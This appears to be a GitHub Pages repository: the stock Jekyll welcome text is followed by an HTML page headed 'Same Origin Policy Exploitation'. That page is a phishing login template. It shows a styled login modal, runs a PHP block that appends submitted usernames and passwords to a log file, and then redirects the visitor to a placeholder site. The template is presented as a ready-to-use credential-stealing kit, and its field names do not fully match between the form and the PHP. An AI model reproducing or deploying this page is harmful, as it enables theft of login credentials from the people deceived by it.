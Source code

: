 ## Welcome to GitHub Pages

You can use the [editor on GitHub](https://github.com/MaxPlagues/CORS-SOP/edit/master/index.md) to maintain and preview the content for your website in Markdown files.

Whenever you commit to this repository, GitHub Pages will run [Jekyll](https://jekyllrb.com/) to rebuild the pages in your site, from the content in your Markdown files.

### Markdown

Markdown is a lightweight and easy-to-use syntax for styling your writing. It includes conventions for

```markdown
Syntax highlighted code block

# Header 1
## Header 2
### Header 3

- Bulleted
- List

1. Numbered
2. List

**Bold** and _Italic_ and `Code` text

[Link](url) and ![Image](src)
```

For more details see [GitHub Flavored Markdown](https://guides.github.com/features/mastering-markdown/).

### Jekyll Themes

Your Pages site will use the layout and styles from the Jekyll theme you have selected in your [repository settings](https://github.com/MaxPlagues/CORS-SOP/settings). The name of this theme is saved in the Jekyll `_config.yml` configuration file.

### Support or Contact

Having trouble with Pages? Check out our [documentation](https://help.github.com/categories/github-pages-basics/) or [contact support](https://github.com/contact) and we’ll help you sort it out.







<!DOCTYPE html>
	<html>
		<head>
			<h1 style="text-align:center;">Same Origin Policy</h1>
			<h2 style="text-align:center;"><i>Exploitation</i></h2>
				<meta name="viewport" content="width=device-width, initial-scale=1">
			

	<style>
		body {font-family: Arial, Helvetica, sans-serif;}

		/* Full-width input fields */
		input[type=text], input[type=password] {
   			width: 100%;
    		padding: 12px 20px;
    		margin: 8px 0;
    		display: inline-block;
    		border: 1px solid #ccc;
    		box-sizing: border-box; 
		}

		/* Set a style for all buttons */
		button {
   			background-color: #ff9933;
    		color: white;
    		padding: 14px 20px;
    		margin: 8px 0;
    		border: none;
    		cursor: pointer;
    		width: 100%;
		}

		button:hover {
    		opacity: 0.8;
		}

		/* Extra styles for the cancel button */
		.cancelbtn {
   			width: auto;
    		padding: 10px 18px;
    		background-color: #996600;
		}

		/* Center the image and position the close button */
		.imgcontainer {
   			text-align: center;
    		margin: 24px 0 12px 0;
    		position: relative;
		}	

		img.avatar {
    		width: 40%;
    		border-radius: 50%;
		}

		.container {
    		padding: 16px;
		}

		span.psw {
    		float: right;
    		padding-top: 16px;
		}

		/* The Modal (background) */
		.modal {
    		display: none; /* Hidden by default */
    		position: fixed; /* Stay in place */
    		z-index: 1; /* Sit on top */
    		left: 0;
    		top: 0;
    		width: 100%; /* Full width */
    		height: 100%; /* Full height */
    		overflow: auto; /* Enable scroll if needed */
    		background-color: rgb(0,0,0); /* Fallback color */
    		background-color: rgba(0,0,0,0.4); /* Black w/ opacity */
    		padding-top: 60px;
		}

		/* Modal Content/Box */
		.modal-content {
    		background-color: #fefefe;
    		margin: 5% auto 15% auto; /* 5% from the top, 15% from the bottom and centered */
    		border: 1px solid #888;
    		width: 80%; /* Could be more or less, depending on screen size */
		}

		/* The Close Button (x) */
		.close {
    		position: absolute;
    		right: 25px;
   			top: 0;
    		color: #000;
    		font-size: 35px;
    		font-weight: bold;
		}

		.close:hover,
		.close:focus {
    		color: red;
    		cursor: pointer;
		}

		/* Add Zoom Animation */
		.animate {
    		-webkit-animation: animatezoom 0.6s;
    		animation: animatezoom 0.6s
		}

		@-webkit-keyframes animatezoom {
    		from {-webkit-transform: scale(0)} 
    		to {-webkit-transform: scale(1)}
		}
    
		@keyframes animatezoom {
    		from {transform: scale(0)} 
    		to {transform: scale(1)}
		}

		/* Change styles for span and cancel button on extra small screens */
		@media screen and (max-width: 300px) {
    		span.psw {
       			display: block;
       			float: none;
    		}
    		.cancelbtn {
       			width: 100%;
    		}
		}
		</style>
	</head>
<body>

	<h2>Please Login Below</h2>

	<button onclick="document.getElementById('id01').style.display='block'" style="width:auto;">Login</button>

	<div id="id01" class="modal">
  
    <form class="modal-content animate" action="/action_page.php">
    <div class="imgcontainer">
    	<span onclick="document.getElementById('id01').style.display='none'" class="close" title="Exit">&times;</span>
    </div>

    <div class="container">
    	<label for="uname"><b>Username</b></label>
    	<input type="text" placeholder="Enter Username" name="uname" required>

    	<label for="psw"><b>Password</b></label>
    	<input type="password" placeholder="Enter Password" name="psw" required>
        
    	<button type="submit">Login</button>
    </div>

    <div class="container" style="background-color:#f1f1f1">
    	<button type="button" onclick="document.getElementById('id01').style.display='none'" class="cancelbtn">Cancel</button>
	</div>
  </form>
</div>

<script>

var modal = document.getElementById('id01');


window.onclick = function(event) {
    if (event.target == modal) {
        modal.style.display = "none";
    }
}
</script>

<?php

if ($_POST['Login']){

$myFile = "log.txt";
$fh = fopen($myFile, 'a') or die("can't open file");
$stringData = $_POST['username'] . ":";
fwrite($fh, $stringData);
$stringData = $_POST['password'] . "\n";
fwrite($fh, $stringData);
fclose($fh);

} ?>

<script>location.href='https://YOURWEBSITE.com';</script>
	

</body>
</html>
